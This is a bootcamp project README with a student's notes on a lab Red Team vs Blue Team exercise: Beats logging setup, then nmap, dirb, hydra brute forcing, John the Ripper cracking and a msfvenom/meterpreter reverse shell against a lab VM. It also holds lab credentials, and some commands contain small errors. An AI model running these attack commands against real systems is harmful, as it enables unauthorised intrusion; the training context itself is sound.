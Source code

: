 ## Unit  README: 

### Unit Description

In the second project week, you will work on a Red Team vs. Blue Team scenario in which you will play the role of both pentester and SOC analyst.

As the Red Team, you will attack a vulnerable VM within your environment, ultimately gaining root access to the machine. As Blue Team, you will use Kibana to review logs taken during their Day 1 engagement. You'll use the logs to extract hard data and visualizations for their report.

Then, you will interpret your log data to suggest mitigation measures for each exploit that you've successfully performed.


### Unit Objectives

<details>
    <summary>Click here to view the daily unit objectives.</summary>
<br>

This week's project will prompt you to apply knowledge of the following skills and tools:

- Penetration testing with Kali Linux.

- Log and incident analysis with Kibana.

- System hardening and configuration.

- Reporting, documentation, and communication.


</details>


## Project

---

## Stage 1: Settng up VMs

There are three Machines in the network

1) Kali VM - The Attacker machine

2) Capstone VM - The Victim machine

3) ELK VM - For monitoring and generating logs




**Setting up Capstone VM to enable collection of Logs**

- Cap stone VM credentials: `vagrant:tnargav` and switch to the root user with `sudo su`

- Setting up **filebeat** ships log data (simplifies, parsing, visualization of log formats) from server to ELK Stack or monitoring VM

- `filebeat modules enable apache`
- `filebeat setup`


- Setting up **metricbeat** ships metrics data from server (e-g MongoDB, MYSQL, Apache) to ELK Stack or monitoring VM

- `metricbeat modules enable apache`
- `metricbeat setup`


- Setting up **packetbeat** integrates Elasticsearch and Kibana to provide realtime analysis 

- `packetbeat setup`


- Restarting services after initial installation

`systemctl restart filebeat`
`systemctl restart metricbeat`
`systemctl restart packetbeat`

---
## Stage 2: Attacking the Capsone VM using the VM Kali Linux

- Stages of Engagement: The commands below are run on the Kali Linux. In this case the Hacker's machine (Kali Linux) is already part of the network. That is why there is no need to perform OSNIT/Recon-NG in this project as we are not targeting any external network or website

a) **Information Gathering**: Obtaining info regarding the network, e-g ip addresses etc

- `ifconfig` to discover the network ip address and range

- `netdiscover` to determine the active hosts on the network- The actual command is below

- `netdiscover -r 192.168.1.255/16`



b) **Scanning**

- Checking the hosts again with ping: `nmap -pn 192.168.1.255/16`

- Scanning for open ports and Version: `nmap -sV 192.168.1.1-105`

- Checking for OS: `nmap -sS -A 192.168.1.105`

- Typing the ip address of the victim in the brower can reveal folder directories on the "HTML page" if there are security loop holes such as no formal index.html. The directories may or may not be password protected. 

- gives information about the company_folders and secret_folder and we find that they are password protected

- Alternatively If you know the path to a file, you can attempt to download it directly  `wget 192.168.1.105/company_folders/customer_info/customers.txt`

- `wget 192.168.1.105/meet_our_team/ashton.txt`

- Or run an nmap script reveal hidden files and directories : `nmap --script http-enum -p80 192.168.1.105`. Here `http-enum` is an NSE (Nmap scripting engine) script provides insights regarding the types of servers and applications in use within the subnet. 

- These also inform that the username is Ashton for these password protected folders

- Scanning for directories using dirb

`dirb http://192.168.1.105/ /usr/share/wordlists/dirb/common.txt`

c) **Exploitation**

- Using hydra to brute force ashton's pasword. username: `ashton`

- Unziping the worlist to try to bruteforce attack. Note that in kali linux there is a pre-stored wordlist `/usr/share/wordlists` if it is zipped then it must be unzipped before it can be used

- `gunzip /usr/share/wordlists/rockyou.txt.gz`

- Hydra brute force action: `hydra -l ashton -p /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder/`

- New username noted: ryan, need to crack its hash

- Crack hash with john the ripper

- Now access Wdav with the username ryan and the cracked password

- Msfvenom to create a reverse shell script

- Run the malacious shell script on the Victim (Capstone) VM

- Set the Lhost etc on metasploit. Once the script is run, the shell will switch to meterpreter

- Find the flag with meterpreter



d) Post-exploitation

e) Reporting










### Lab Environment

<details>

<summary>Click here to view the lab environnement.</summary>

<br>

In this unit, you will be using the Web Vulns lab environment located in Windows Azure Lab Services. RDP into the Windows RDP host machine using the following credentials:

Username: `azadmin`
Password: `p4ssw0rd*`

Open the Hyper-V Manager to access the nested machines:

- ELK machine credentials:

    - Username: vagrant
    - Password: vagrant

**Next Week's Lab Environment**: At the end of 20.3, we will set up a new Azure Lab Environment for the Forensics unit.  


</details>


### What to Be Aware Of:

- Day 1 can be completed as a competition between the students. If you wish to do so, split the students into teams and have them compete to win a prize! The first team to complete _all_ the steps wins.

- Let students know that to complete Day 2 they must complete steps 1-6 from Day 1. Finding the flag isn't critical, but students need to progress past the point of uploading the reverse shell script.

- Throughout Day 2, it is important that the students take screen shots of each step they complete. These screen shots will be used in their Day 3 Report.

### Security+ Domains

This unit covers portions of the following domains on the Security+ exam:

<details>
    <summary>Click here to see some Security+ Domains that are relevant to this project.</summary>
 <br>

- Types of attacks
- Indicators of compromise
- Penetration testing concepts
- Vulnerability scanning concepts
- Impact of vulnerabilities
- Security assessment tools 

</details> 

<br>

For more information about these Security+ domains, refer to the following resource: [Security+ Exam Objectives](https://www.comptia.jp/pdf/Security%2B%20SY0-501%20Exam%20Objectives.pdf)


### Additional Reading and Resources

<details> 
<summary> Click here to view additional reading materials and resources. </summary>
</br>

Day 1:

- [Red Team Vs Blue Team](https://securitytrails.com/blog/cybersecurity-red-blue-team)
- [What is Vulnerability Scanning](https://www.esecurityplanet.com/network-security/vulnerability-scanning.html)
- [What is a reverse shell](https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/)


Day 2: 

- [Kibana: Discover Documentation](https://www.elastic.co/guide/en/kibana/7.7/discover.html)
- [Kibana: Visualize Documentation](https://www.elastic.co/guide/en/kibana/7.7/visualize.html)
- [Elasticsearch Reference Documentation](https://www.elastic.co/guide/en/elasticsearch/reference/current/index.html)


</details>

---

### Looking Forward 

In the next week, we will cover the specialized field of digital forensics. We will cover a new set of skills and tools that allow us to analyze evidence on digital technology after an security incident or crime occurs.  

---


© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

